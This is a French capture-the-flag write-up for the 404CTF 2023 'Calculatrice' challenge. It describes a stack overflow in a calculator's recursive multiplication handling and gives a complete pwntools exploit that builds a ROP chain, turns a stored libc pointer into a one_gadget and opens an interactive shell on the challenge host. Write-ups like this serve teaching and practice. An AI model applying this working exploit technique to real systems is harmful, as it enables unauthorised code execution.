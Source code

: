 ## Calculatrice

était donc un challenge d'exploitation binaire de la dernière édition du 404CTF 2023

c'était une calculatrice comme son nom l'indique. La vulnérabilité est assez simple à trouver,

c'est un overflow sur la pile lors du traitement récursif de l'opération de multiplication.

par exemple si on envoie à la calculatrice:

`9*9*9*9*9*9*9*9*9*9*9*9*9*1*2*3*4*5*6*7`

on obtient un beau crash, qu'on va inspecter sous gdb:

![overflow](./pics/overflow.png)

On peut voir que la valeur `1` à été écrite sur l'adresse de retour, dans RIP donc.

Et que les autres valeurs 2,3,4,etc... sont sur la pile.

Les protections du binaire étant minimes (pas de PIE notamment):

```sh
checksec calculatrice
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

Il est donc très simple d'envoyer un ROP à éxécuter au programme.

Il y avait un "intended" (concept signifiant que vous devez faire les choses d'une certaine façon qui est censée être la bonne) dont je n'ai aucune idée.

pour ma part je suis allé vers le plus simple et rapide.

J'ai utilisé un `add gadget`, afin de transformer l'adresse libc de `stderr` stockée dans la `.bss` pour la transformer en l'adresse d'un `one gadget`, que j'ai exécuté.

voici l'exploit en question:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("calculatrice_patched")
libc = ELF("./libc.so.6")

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l0', filename]).decode().split(' ')]
#onegadgets = one_gadget(libc.path, libc.address)

# shortcuts
def sla(delim,line): return p.sendlineafter(delim,line)

rop = ROP(exe)

host, port = "challenges.404ctf.fr", "32111"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rbx_rbp = rop.find_gadget(['pop rbx','pop rbp', 'ret'])[0]
add_gadget = 0x000000000040125c # add dword ptr [rbp - 0x3d], ebx ; nop ; ret
jmp_rsi = 0x0000000000401638 # jmp qword ptr [rsi - 0x39]
pop_rsi = rop.find_gadget(['pop rsi','pop r15', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

# use add gadget to change stderr address on .bss to a onegadget, and jump to it..
onegadgets = one_gadget(libc.path)
rop = p64(pop_rbx_rbp)+p64((0x100000000-((libc.address+0x3ec680)-onegadgets[2])))+p64(0x404060+0x3d)+p64(add_gadget)
rop += p64(pop_rsi)+p64(0x404060+0x39)+p64(0)+p64(jmp_rsi)+p64(0)*10


payload = '9*9*9*9*9*9*9*9*9*9*9*9*9*'
# write ROP on stack
for i in range(len(rop)>>3):
  payload += str(u64(rop[(i*8):(i+1)*8]))+'*'

print('payload\n'+payload)

sla(" : ", payload)
p.interactive()
```

et puis voilà quoi...sinon tout va bien..à une prochaine ! 

*Personne_maisalorsvraiment_personne toujours en train d'exploiter de pauvres binaires..*


